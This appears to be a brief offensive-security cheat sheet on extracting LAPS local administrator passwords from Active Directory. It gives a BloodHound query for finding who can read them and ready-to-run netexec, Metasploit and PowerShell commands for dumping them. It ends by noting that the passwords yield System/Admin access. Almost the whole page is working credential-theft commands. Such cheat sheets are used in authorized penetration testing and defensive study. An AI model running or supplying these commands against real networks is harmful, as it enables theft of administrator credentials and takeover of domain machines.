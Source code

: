 # Get LAPS passwords

### Who can read LAPS?

 - MATCH p=(g:Group)-[:ReadLAPSPassword]->(c:Computer) RETURN p

### Get the LAPS password

#### 1) CrackMapExec/Netexec

 - netexec ldap DC_IP -d DOMAIN -u USER -p PASSWORD -M laps

#### 2) Metasploit

 - use post/windows/gather/credentials/enum_laps

#### 3) Powershell

 - Get-LAPSPasswords -DomainController DC_IP -Credential DOMAIN\LOGIN | Format-Table -AutoSize

### LAPS password gives us System\Admin access
